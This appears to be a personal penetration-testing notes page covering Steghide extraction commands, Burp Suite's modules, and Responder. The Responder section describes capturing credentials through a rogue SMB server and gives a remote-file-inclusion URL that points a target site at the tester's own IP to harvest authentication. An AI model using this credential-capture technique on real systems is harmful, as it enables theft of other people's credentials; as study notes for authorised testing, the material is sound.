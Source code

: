 # Tools

## <mark style="color:green;">Steghide</mark>

Stenography Program

* Install

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo apt-get install steghide
```
{% endcode %}

***

* Shows embedded information got from a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
steghide info $filename
```
{% endcode %}

***

* Extract embedded data from a file

{% code overflow="wrap" lineNumbers="true" %}
```bash
steghide extract -sf $filename
```
{% endcode %}



## <mark style="color:green;">Burp Suite</mark>

### **Characteristics**

* Digital plattform tha collects tools for specialiced web penetration testing.
* Framework written in Java that aims to provide a one-stop-shop for web application penetration testing
* Capture and manipulate all of the traffic between an attacker and a webserver
* Can intercept, view, and modify request
* Burp suite has modules that can be added

### **Features**

* **Proxy:** Allows us to intercept and modify requests/responses.
  * _Foxy Proxy:_ Browser Extension for using proxy on Burp
  * The standart IP for connection with Burp is 127.0.0.1 on port 8080
* **Repeater:** Allows us to capture, modify, then resend the same request numerous times. We could craft requests by hand too.
* **Intruder:** Allows us to spray an endpoint with requests.
* **Decoder:** Allows us to transform data, decoding captured information, or encoding a payload.
* **Comparer:** Allows us to compare two pieces of data at either word or byte level.
* **Sequencer:** Help us asses random tokens or other generated data.



## <mark style="color:green;">Responder</mark>

Help in passive obtention of credentials by mounting a SMB server in web

* Configurate file

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo nano /usr/share/responder/Responder.conf #Installed here by default
```
{% endcode %}

***

* Initialize Responder

{% code overflow="wrap" lineNumbers="true" %}
```bash
sudo responder -I $networkinterface
```
{% endcode %}

{% hint style="info" %}
**Note:** If error in any port, set _off_ in the service related to that port in _Responder.conf_ file
{% endhint %}

***

* Make Remote file inclusion at page

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$url/$query?$value=//$myip/somefile
```
{% endcode %}

***

